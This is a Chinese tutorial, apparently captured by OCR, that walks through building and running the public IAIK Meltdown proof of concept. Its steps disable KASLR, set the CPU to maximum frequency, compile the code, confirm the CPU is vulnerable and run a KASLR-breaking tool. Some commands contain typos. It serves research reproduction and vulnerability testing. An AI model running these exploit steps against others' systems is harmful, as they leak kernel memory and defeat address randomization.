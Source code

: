 将nokaslr选项写入grub配置中，然后重启电脑。

设置CPU频率为最大性能
------------

由于项目的需要，还有但核心运算时的性能问题，我们希望CPU以最高频率运行，所以我们在终端里输入：

```bash
$ sudo apt-get install cpufrequtils 
$ cpufreq-set -g perfomance //以最大性能运行
$ sudo cpufreq-info  //查看每个核心是否以大于3.4GHz工作，如果是进行下面的步骤
```



从源代码编译
------

首先解决编译依赖问题，对于Ubuntu系统，终端下输入：

```bash
$ sudo apt-get install build-essentials
```

然后将项目clone下来：

```bash
$ git clone https://github.com/IAIK/meltdown.git
```

进入项目文件夹，编译

```bash
$ cd meltdown
$ make
```



测试是否可以执行漏洞
----------

运行test：

```bash
$ taskset 0x1 ./test
```

如果得到类似输出，则说明CPU存在这个漏洞：

```bash
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```



破解KALSR
-------

这里我们测试环境禁用了kalsr，但是在这里也提供破解的方式：

```bash
$ sudo taskset 0x1 ./kaslr
```
